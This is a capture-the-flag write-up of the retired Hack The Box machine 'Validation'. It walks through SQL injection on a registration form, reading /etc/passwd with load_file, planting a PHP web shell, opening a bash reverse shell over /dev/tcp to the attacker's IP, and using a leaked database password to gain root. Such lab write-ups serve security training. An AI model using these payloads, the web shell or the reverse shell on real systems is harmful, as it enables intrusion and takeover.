


# Validation by k0rriban

## htbexplorer report
|  Name      |  IP Address   |  Operating System  |  Points  |  Rating  |  User Owns  |  Root Owns  |  Retired  |  Release Date  |  Retired Date  |  Free Lab  |  ID   | 
| :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: | :-: |
| Validation  | 10.10.11.116  | Linux              | 20       | 4.8      | 1672        | 1663        | Yes       | 2021-09-13     | 2021-09-06     | No         | 382          |

## Summary
1. Scan ports -> 22,80,4566,8080
2. Web scrapping -> `/index.php`, `account.php`, `config.php`
3. SQLi on `country` param -> LFI
4. Upload php web shell -> RCE and `www-data` shell
5. Read php files -> `uhc:uhc-9qual-global-pw`
6. Try password on root -> Root shell via `root:uhc-9qual-global-pw`

## Enumeration
### OS
|  TTL      |  OS  |
| :-: | :-: |
| +- 64    | Linux |
| +- 128   | Windows |

As we can see in the code snippet below, the operating system is Linux.
```bash
❯ ping -c 1 10.10.11.116
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=106 ms
```

### Nmap port scan
First of all, we need to scan the victim to see what ports are open. As this is a consented operation, we will use the nmap tool with non-anonymous settings.
```bash
❯ sudo nmap -p- -sS -min-rate 5000 -Pn -n 10.10.11.160 -oG Enum/nmap.out -v
```
From the output of the nmap scan, we obtain:
``` bash
❯ extractPorts Enum/nmap.out
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: extractPorts.tmp
       │ Size: 127 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.11.116
   5   │     [*] Open ports: 22,80,4566,8080
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
───────┴───────────────────────────────────────────────────────────────────────────
```
If we run a detailed scan on the open ports, we obtain:
```bash
❯ nmap -p22,80,4566,8080 -A 10.10.11.116
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-31 13:10 CEST
Nmap scan report for 10.10.11.116
Host is up (0.22s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.84 seconds
```
#### Final nmap report
| Port | Service | Version | Extra |
| :-: | :-: | :-: | :-: |
| 22 | ssh | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 | No credentials |
| 80 | http | Apache httpd 2.4.48 | No credentials |
| 4566 | http | nginx | Response 403 (Forbidden) |
| 8080 | http | nginx | Response 502 (Bad Gateway) |

### Web scrapping
#### Whatweb scan
```bash
❯ whatweb 10.10.11.116
http://10.10.11.116 [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
```
In addtition to this information, we can use wappalyzer to fill the following table:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Bootstrap | 3.3.7 | - |
| Apache | 2.4.48 | - |
| JQuery | 3.2.1 | - |
| PHP | 7.4.23 | - |

#### Fuzzing
First, let's fuzz all the pages without extension, to do so we use:
```bash
❯ sudo wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 16088 http://10.10.11.116/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.116/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000550:   301        9 L      28 W       310 Ch      "css"             
000000953:   301        9 L      28 W       309 Ch      "js"              
000095524:   403        9 L      28 W       277 Ch      "server-status"   
```
Notice that we obtian a 403 response for `server-status`, meaning we are unauthorized to access it. Next, we will fuzz all the pages with the extension `.php`, to do so we use:
```bash
❯ sudo wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 16088 http://10.10.11.116/FUZZ.php
passwd: 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.116/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload           
=====================================================================

000000349:   200        0 L      2 W        16 Ch       "account"         
000001490:   200        0 L      0 W        0 Ch        "config"      
```
As seen in the output, we detect two pages, `account` and `config`. Since `config` is empty, we can suppose it is used to recieve POST requests and process them.
As we don't know the domain name of the machine, we cannot fuzz subdomains.

#### `/index.php` page
The home page of the server is `/index.php`, which consists of a register form where u can specify your name and select from a set of countries:

First thing we can try is to inject SQL in the `name` field, injecting `' or 1=1#` we obtain:

The injection ended up in failure, but from the output we can guess that sql statement is not looking for specific users, but all the users in a specific location. If that is correct, we can try sql injection in the country field:
```username=foo&country=' or 1=1 --```
To do so, we will use burpsuite. We will need to have two templates in the repeater, the first one, to create a new account:
```http
POST / HTTP/1.1
Host: 10.10.11.116
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.116
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=b&country=Angola
```
And the second one, to see the results:
```http
GET /account.php HTTP/1.1
Host: 10.10.11.116
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.11.116/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=0cc175b9c0f1b6a831c399e269772661
Connection: close
```
Now, injecting into the first template `country=' or 1=1 --'` we obtain:
```html
<h1 class="text-white">Welcome b</h1><h3 class="text-white">Other Players In ' or 1=1 --</h3><br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
Stack trace:
#0 {main} thrown in <b>/var/www/html/account.php</b> on line <b>33</b>
```
Meaning the injection worked, but we need another payload. If we try to inject `country=' UNION select "test" ;-- -` we obtain:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select "test" ;-- -</h3>
<li class='text-white'>test</li>
```
The injection was successful, so to inject sql we need to end the payload with `;-- -`. Since we can inject sql code, we can show all the tables hold in the database:
```http
username=b&country=' UNION show tables;-- -
```
Which ended up in error, meaning we can only obtain the union between selects. If we try to get the user of the database with `country=' UNION select user();-- -` we obtain:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select user() ;-- -</h3>
<li class='text-white'>uhc@localhost</li>
```
So the user of the database is `uhc@localhost`. Next, we can obtain the name of the database with `contry=' UNION select database();-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select database() ;-- -</h3>
<li class='text-white'>registration</li>
```
So the database name is `registration`. Now that we know the database name, we can try to enumerate again the table names with `country=' UNION select table_name from information_schema.tables where table_schema='registration';-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select table_name from information_schema.tables where table_schema='registration' ;-- -</h3>
<li class='text-white'>registration</li>
```
Now we knwow the name of the unique table contained in the database, `registration`. We can enumerate the columns of this table with `country=' UNION select column_name from information_schema.columns where table_name='registration';-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION select column_name from information_schema.columns where table_name='registration' ;-- -</h3>
<li class='text-white'>username</li>
<li class='text-white'>userhash</li>
<li class='text-white'>country</li>
<li class='text-white'>regtime</li>
```
So the table `registration` contains has the form:
| username | userhash | country | regtime |
|---------|----------|--------|---------|

Let's fill this table with the payload `country=' UNION select username from registration ;-- -` and `country=' UNION select userhash from registration ;-- -`:
| username | userhash |
| :------: | :------: |
| revan | 0cc175b9c0f1b6a831c399e269772661 | 
| revan';show tables;-- | 211d67ceece13f72e97eadd61ba47ff8 |
| s' or 1=1 | 38d6b115d344bb0182bff7cdc6b37ab9 |
| ' or 1=1# | 64d31aa26aefb615ca4325e73aa6f085 |
| a | 66cca4f80d1138dcd0c942f18504f4b8 |
| b | 92eb5ffee6ae2fec3ad71c777531578f |

But this information results useless, since all the users contained were inserted by us.
On the other hand, we can list the privileges the user `uhc@localhost` has on the database, to do so we need to find out which dbManager is used. Usually, each db manager has a schema with its name, so we can try `contry=' UNION select schema_name from information_schema.schemata';-- -`:
```html
<h3 class="text-white">Other Players In ' UNION select schema_name from information_schema.schemata ;-- -</h3>
<li class='text-white'>information_schema</li>
<li class='text-white'>performance_schema</li>
<li class='text-white'>mysql</li>
<li class='text-white'>registration</li>
```
So the db manager is `mysql`. With this information se can list the privileges of the user `uhc@localhost`, injecting `country=' UNION select privilege_type from information_schema.user_privileges where grantee='uhc@localhost';-- -`:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION SELECT privilege_type from information_schema.user_privileges where grantee='uhc@localhost' ;-- -</h3>
```
It returns error, so let's check how the grantees are stored into that table:
```html
<h1 class="text-white">Welcome b</h1>
<h3 class="text-white">Other Players In ' UNION SELECT grantee from information_schema.user_privileges  ;-- -</h3>
<li class='text-white'>'mariadb.sys'@'localhost'</li>
<li class='text-white'>'mysql'@'localhost'</li>
<li class='text-white'>'root'@'localhost'</li>
<li class='text-white'>'uhc'@'localhost'</li>
```
So the grantees follow the pattern 'username'@'hostname'. Let's try the previous payload with this modification:
```sql
' UNION SELECT privilege_type from information_schema.user_privileges where grantee= "'uhc'@'localhost'" ;-- -
```
```html
SELECT
INSERT
UPDATE
DELETE
CREATE
DROP
RELOAD
SHUTDOWN
PROCESS
FILE
REFERENCES
INDEX
ALTER
SHOW DATABASES
SUPER
CREATE TEMPORARY TABLES
LOCK TABLES
EXECUTE
REPLICATION SLAVE
BINLOG MONITOR
CREATE VIEW
SHOW VIEW
CREATE ROUTINE
ALTER ROUTINE
CREATE USER
EVENT
TRIGGER
CREATE TABLESPACE
DELETE HISTORY
SET USER
FEDERATED ADMIN
CONNECTION ADMIN
READ_ONLY ADMIN
REPLICATION SLAVE ADMIN
REPLICATION MASTER ADMIN
BINLOG ADMIN
BINLOG REPLAY
SLAVE MONITOR
```
From those privileges we could use `SHUTDOWN` for DOS and `FILE` for LFI. Let's try reading the `/etc/passwd` file with `country=' UNION select load_file('/etc/passwd');-- -`:
```html
<h3 class="text-white">Other Players In ' UNION select load_file('/etc/passwd');-- - ;-- -</h3>
<li class='text-white'>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:104:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:105:106::/nonexistent:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
</li>
```
So we can enumerate root as the only user with a bash shell. Anyway, we observe the user www-data, so we can try to upload a file with `country=' UNION select "test" into dumpfile '/var/www/html/test.txt' ;-- -`. 
Which returns an error, but still get's the job done:
```bash
❯ curl http://10.10.11.116/test.txt
test
```

## User shell
Now that the have LFI granted on the machine, we can upload a web shell on php as:
```php
system($_GET['cmd']);
```
So the payload would be `country=' UNION select "<?php system($_GET['cmd']); ?>" into dumpfile '/var/www/html/terminal.php' ;-- -`. Which let us use the web shell as:
```bash
❯ curl "http://10.10.11.116/terminal.php?cmd=whoami"
www-data
```
As we saw in the `/etc/passwd`, there is no other user we can achieve in the machine, so the only thing we can do is establish a reverse shell.
```bash
❯ curl "http://10.10.11.116/terminal.php?cmd=bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.16.2/3333%200>%261'"
# In other terminal
❯ nc -nlvp 3333
Connection from 10.10.11.116:52128
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ 
```
We successfully established a reverse shell. When accessing to `/home` we find a home folder `htb` which contains the user flag.

## Privilege escalation
As we don't have ssh access, we cannot upload files through scp and uploading them via web shell could be hard. Anyway, we could encode them in base64 and use the `base64` command to decode them.
```bash
www-data@validation:/var/www/html$ which base64
which base64
/usr/bin/base64
```
Also, as the `www-data` user, we can now read the source of the web server and check for credential leakage.
### Reading source code
The php section of `index.php` is:
```php
<?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {
    $userhash = md5($_POST['username']);
    $sql = "INSERT INTO registration (username, userhash, country, regtime) VALUES (?, ?, ?, ?)";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("sssi", $_POST['username'], $userhash , $_POST['country'], time());
    if ($stmt->execute()) {;
	   setcookie('user', $userhash);
	   header("Location: /account.php");
	   exit;
    }
    $sql = "update registration set country = ? where username = ?";
    $stmt = $conn->prepare($sql);
    $stmt->bind_param("ss", $_POST['country'], $_POST['username']);
    $stmt->execute();
    setcookie('user', $userhash);
    header("Location: /account.php");
    exit;
  }

?>
```
As we can see, the input is not sanitized and that allowed the sql injection which brought us to this point. But we see no credentials, so let's have a look at `account.php`: No credentials either.

The last file we can check is `config.php`:
```php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```
We leaked a password for the database, obtaining the credential `uhc:uhc-9qual-global-pw`.

Once we got these credentials, we can try them on other users, as it is common to use the same password for multiple apps or users. The only user with a shell is `root` so les's try to switch user to it:
```bash
www-data@validation:/var/www/html$ su root
su root
Password: uhc-9qual-global-pw
ls
account.php
config.php
css
index.php
js
whoami
root
ls /root
config
ipp.ko
root.txt
snap
```

### CVE
No CVEs were used to solve this machine.

## Machine flag
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 56a00c13c9b5a49daabd665b60891a5d | No | 31-05-2022|
| Root | b88c71b72530d554ae89acf7de42892b | No | 31-05-2022|
    

## References
- https://stackoverflow.com/questions/838978/how-to-check-if-mysql-database-exists
- https://dev.mysql.com/doc/refman/5.7/en/information-schema-table-privileges-table.html
- https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985